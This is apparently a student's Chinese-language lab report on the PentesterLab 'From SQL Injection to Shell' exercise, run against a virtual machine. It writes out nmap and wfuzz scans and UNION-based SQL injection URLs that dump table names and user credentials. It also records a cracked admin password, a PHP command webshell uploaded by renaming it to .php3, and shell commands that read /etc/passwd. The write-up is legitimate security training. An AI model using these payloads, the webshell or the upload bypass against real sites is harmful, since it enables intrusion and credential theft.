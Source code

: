 # chap0x07 从SQL注入到Shell 实验报告

## 1、 网络设置

本次实验使用了两台虚拟机

- 靶机 网卡设置：host-only 

    - IP ：192.168.56.102

- 攻击机 网卡设置：host-only

    - IP ：192.168.56.103

## 2、 实验过程

本次实验分为以下几步进行：

1. 环境的搭建

    本次实验完全在虚拟机环境中进行，使用了两台虚拟机，一台是我之前配置好的kali虚拟机，作为本次实验的攻击机。另一台靶机从`pentesterlab`上下载的iso进行安装

    安装过程:

    1. [下载iso](https://pentesterlab.com/exercises/from_sqli_to_shell)

    2. 安装iso，使用 Liunx->Ubuntu，选择host-only模式

    3. 安装完成后，启动虚拟机，查看相关的配置，IP地址正常分配

    4. 在攻击者主机上对靶机进行访问，如果能正常访问，说明实验环境正常

- 攻击者主机、靶机的网络设置

![](img/attack_ifconfig.PNG)

![](img/SQL_ipconfig.PNG)

- 攻击者主机访问靶机,返回预期的页面

![](img/attack_webpage.PNG)

2. 攻击前侦测

- 使用nmap查考靶机上端口开放情况,可以看到22和80端口是开启的

        nmap 192.168.56.102

![](img/SQL_port.PNG)

- 尝试连接端口，telnet无法进行连接，但nc可以

        telnet 192.168.56.102 80

        nc 192.168.56.102 80

![](img/attack_telnet.PNG)

![](img/attack_nc.PNG)

- 对网页的网站源代码等进行分析，发现其后端使用了PHP

![](img/attack_webpage1.PNG)

![](img/attack_webpage2.PNG)

- 网站内容没有再分析得到更多的东西，之后尝试使用wfuzz尝试进行爆破

        wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404,403 http://192.168.56.102/FUZZ

        # -c 带颜色输出

        # -w kali自带暴力破解的字典文件，使用该文件

        # --hc 隐藏特殊响应

![](img/attack_wfuzz.PNG)

- 找到可疑的网页进行测试，修改`id=`的值，观察返回的页面信息

![](img/SQL_test0.PNG)

![](img/SQL_test3.PNG)

- 观察的时候发现,`id=2`和`id=2-1`返回的页面是不一样的，说明这个地方可能存在SQL注入点

![](img/SQL_test1.PNG)

![](img/SQL_test2.PNG)

3. 开始进行SQL注入

- 我们希望能获取到数据库的列数和列名，尝试使用`order by x`进行分析，x为阿拉伯数字

- 经过尝试之后，我们可以发现`x`为1~4的时候能正常返回图片，但为5时却返回了错误信息，说明数据库表有4列

        192.168.56.102/cat.php?id=1 order by 1
        192.168.56.102/cat.php?id=1 order by 2
        192.168.56.102/cat.php?id=1 order by 3
        192.168.56.102/cat.php?id=1 order by 4

![](img/SQL_orderby1.PNG)

![](img/SQL_orderby5.PNG)

- 根据返回的数据有四列，我们可以使用`union select 1,2,3,4`来查看返回图片名字的是哪一列，从实验结果截图中可以看出，返回了`2`。

- 则在后面的sql注入中，我们修改`2`中的信息来获取获取数据库中的其他内容

        192.168.56.102/cat.php?id=1 UNION SELECT 1,2,3,4

![](img/SQL_union1234.PNG)

- 通过修改`2`的值来获取数据库版本、用户信息等

        192.168.56.102/cat.php?id=1 UNION SELECT 1,current_user(),3,4

        192.168.56.102/cat.php?id=1 UNION SELECT 1,@@version,3,4

        192.168.56.102/cat.php?id=1 UNION SELECT 1,database(),3,4

![](img/SQL_user.PNG)

![](img/SQL_version.PNG)

![](img/SQL_database.PNG)

- 查看数据的所有表名，和表的列名

        192.168.56.102/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables

        192.168.56.102/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns

![](img/attack_tablename.PNG)

![](img/attack_column.PNG)

- 但为了方便把表和列进行对应，所以将其一起输出

- 得到输出结果后，`ctrl F`进行有关密码的关键词搜索，发现有相关内容，猜测其存有我们所想要获得的密码信息

        192.168.56.102/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns

![](img/attack_tablename&column.PNG)

- 在知道可能是目标的表后，想办法得到表中的数据

        192.168.56.102/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;

![](img/attack_getpassword.PNG)

- 在获取到用户名和密码后，密码是一串乱码的字符串，使用其进行登录，发现登录失败

- 猜测其为哈希值，使用在线网站尝试进行破解，得到一串有意义的字符串，再次尝试登录，登录成功，则管理员名为`admin`，密码为`P4ssw0rd`

![](img/attack_md5.PNG)

- 登录后，页面如下

![](img/attack_admin.PNG)

4. 上传webshell

- 在本地创建`.php`，文件内容如下

        <?php
        system($_GET['cmd']);
        ?>

- 尝试上传php文件到服务器端，但提示上传失败，不能直接上传PHP文件

![](img/attack_uploadphp.PNG)

- 尝试绕过检测，修改文件后缀为`.php3`，这次成功上传

![](img/attack_php3.PNG)

![](img/attack_findphp3.PNG)

- 上传成功后，即可直接用url执行cmd参数的命令

        192.168.56.102/admin/uploads/shell.php3?cmd=cat /ect/passwd

        192.168.56.102/admin/uploads/shell.php3?cmd=uname

## 3、实验参考

[From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

[Wfuzz 使用](https://blog.csdn.net/hardhard123/article/details/79596104)

